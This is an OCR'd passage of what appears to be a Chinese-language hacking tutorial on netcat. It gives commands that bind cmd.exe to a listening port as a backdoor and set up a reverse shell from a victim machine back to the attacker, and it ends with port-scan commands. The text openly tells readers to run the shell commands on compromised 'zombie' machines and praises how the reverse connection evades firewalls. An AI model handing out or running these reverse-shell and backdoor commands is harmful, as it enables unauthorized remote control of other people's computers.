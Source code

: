 > 命令2：程序定向
> 
> nc -l -p port -t -e cmd.exe
> 
> 本地机： nc -l -p port 或 nc -l -v -p port
> 
> 目标机：nc -e cmd.exe ip port
> 
> 参数解释：
> 
> -l、-p两个参数已经解释过了
> 
> -e；作用就是程序定向
> -t：以telnet的形式来应答
> 
> 例子
> 
> nc -l -p 5277 -t -e cmd.exe
> 
> 知道运行在哪里吗？千万不要运行在自己的机器上，如果运行了，你机器 就会变成一台TELNET的服务器了，呵呵，解释一下：监听本地端口5277的
> 入站信息，同时将CMD.exe这个程序，重定向到端口5277上，当有人连接的时候，就让程序CMD.exe以TELNET的形式来响应连接要求。
> 
> 说白了，其实就是让他成为一台TELNET的肉鸡，所以这个命令要运行在你的肉鸡上。。（话外音：说这么多遍当我们白痴啊，快往下讲！！！）
> 
> 呵呵，咱们来找台肉鸡试试，我TELNET IP 5277 HOHO~~如何？
> 
> 
> 
> local machine：nc -l -p port ( or nc -l -v -p port ) remote machine：nc
> -e cmd.exe ip port
> 
> 大家知道灰鸽子和神偷吧，这两款工具都是利用了反弹端口型的木马， 什么叫反弹端口？就是说，当对方中马后，不用你主动和对方连接，也就是说
> 不用从你的client端向对方主机上运行的server端发送请求连接，而是对方主动来连接你
> 这样就可以使很多防火墙失效，因为很多防火墙都不检查出站请求的。
> 
> 
> 这里这两个命令结合在一起后，于那两款木马可以说有异曲同工之效。为什么？
> 咳！！听我给你讲啊！！（先交100000000RMB学费)哇，别杀我啊！！)
> 
> nc -l -p 5277 （坚听本地5277端口）
> 
> 同样也可以用
> 
> nc -l -v -p 5277
> 
> 运行在本地
> 
> 然后在远程机器上，想办法运行
> 
> nc -e cmd.exe ip 5277
> 
> （你可别真的打“ip”在肉机上啊）要打，xxx.xxx.xxx.xxx这样！！
> 
> 呵呵，看看在本地机器上出现了什么？
> 
> 这样就是反弹~~在本地机器上得到了一个SHELL
> 
> 
> 
> 命令3：扫描端口
> 
> nc -v ip port nc -v -z ip port-port nc -v -z -u ip port-port
> 
> 